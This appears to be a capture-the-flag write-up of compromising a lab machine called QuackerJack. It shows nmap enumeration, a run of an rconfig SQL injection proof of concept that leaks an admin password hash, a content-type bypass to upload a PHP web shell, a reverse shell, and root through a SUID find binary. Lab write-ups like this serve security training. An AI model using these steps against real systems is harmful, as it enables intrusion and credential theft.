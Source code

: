 ## First Enumerating with nmap

```shell
# Nmap 7.94SVN scan initiated Fri Mar  8 15:34:35 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 21,22,80,111,139,445,3306,8081 -Pn 192.168.185.57
Nmap scan report for 192.168.185.57
Host is up (0.20s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.205
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp   open  ssh         OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 a2:ec:75:8d:86:9b:a3:0b:d3:b6:2f:64:04:f9:fd:25 (RSA)
|   256 b6:d2:fd:bb:08:9a:35:02:7b:33:e3:72:5d:dc:64:82 (ECDSA)
|_  256 08:95:d6:60:52:17:3d:03:e4:7d:90:fd:b2:ed:44:86 (ED25519)
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Apache HTTP Server Test Page powered by CentOS
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp  open  netbios-ssn Samba smbd 4.10.4 (workgroup: SAMBA)
3306/tcp open  mysql       MariaDB (unauthorized)
8081/tcp open  http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
|_http-title: 400 Bad Request
Service Info: Host: QUACKERJACK; OS: Unix

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-03-08T14:35:41
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h40m52s, deviation: 2h53m15s, median: 50s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.10.4)
|   Computer name: quackerjack
|   NetBIOS computer name: QUACKERJACK\x00
|   Domain name: \x00
|   FQDN: quackerjack
|_  System time: 2024-03-08T09:35:43-05:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar  8 15:35:30 2024 -- 1 IP address (1 host up) scanned in 54.94 seconds

```


## Enumerating web

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0533edb6-ef6b-422d-ac5f-7c6b52afcf36)

a web server running on port `8081`, opening it on a browser, we got redirected to a login page. And we can see the web app is running `rconfig` service.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/cf554c2d-771c-42ce-bb0e-e297665eeafc)

did some research and found out exploits for the `rconfig` service. [exploit](https://github.com/v1k1ngfr/exploits-rconfig/)

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/QuakerJack]
└─$ python sqli.py https://192.168.185.57:8081
rconfig 3.9 - SQL Injection PoC
[+] Triggering the payloads on https://192.168.185.57:8081/commands.inc.php
[+] Extracting the current DB name :
rconfig
[+] Extracting 10 first users :
admin:1:dc40b85276a1f4d7cb35f154236aa1b2
Maybe no more information ?
Maybe no more information ?
Maybe no more information ?
Maybe no more information ?
[+] Extracting 10 first devices :
Maybe no more information ?
Maybe no more information ?
[*Snip*]
Maybe no more information ?
Done
```
ran the sqli exploit, we are able to extract the admin password md5 hash 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/50ffafc2-ba47-4eec-a994-0d9085378ec5)

cracked the password hash `abgrtyu`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/6e8dc008-869e-4d1d-9281-fa857cdbad51)

logged in as `admin` success using the password cracked.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1c8a9719-c1b9-458d-9183-6f4df3af3ead)

further research, found a file upload POC to RCE.. [POC](https://gist.github.com/farid007/9f6ad063645d5b1550298c8b9ae953ff)

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/cbf6f1e7-cdb5-488d-9c4a-687c2ed18591)

navigate to the vendors.php dir and upload a shell.php, intercept request with burp.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/2da23a25-75c0-4ec7-ab1d-976806b99c29)

click save and conver the contenttype for `x-php` to `images/gif` to bypass file upload restriction.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/00cb5bc1-4a39-48ff-99f1-f5a7497c9da4)

Navigate to the shell path and we can trigger RCE. Let's get a reverse shell 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/08630b1c-4454-420d-a057-bb939aebfbbb)

we got a reverse shell.


## Privilege Escalation 

```shell
bash-4.2$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/find
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/su
/usr/bin/sudo
/usr/bin/mount
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/fusermount
/usr/sbin/unix_chkpwd
/usr/sbin/pam_timestamp_check
/usr/sbin/usernetctl
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
bash-4.2$ 
```
checking for suid, we can see an suid `/usr/bin/find`. let's abuse to get root shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e5038d22-f609-4061-97c9-863a6f513e89)

abusing it we got a root shell. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/49ea520d-2dde-41ea-9de9-8a17d2ab1792)

And we are through... 🙂

